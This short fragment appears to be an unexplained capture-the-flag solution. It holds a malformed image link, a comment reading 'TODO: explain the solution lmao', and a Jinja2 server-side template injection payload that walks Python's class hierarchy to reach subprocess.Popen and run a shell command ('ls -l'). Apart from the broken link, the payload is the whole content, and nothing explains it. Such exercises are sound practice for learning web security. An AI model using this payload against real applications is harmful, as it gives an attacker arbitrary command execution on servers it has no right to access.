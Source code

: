 # TODO: explain the solution lmao

{{''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[367]('ls -l', shell=True, stdout=-1).communicate()[0] }}
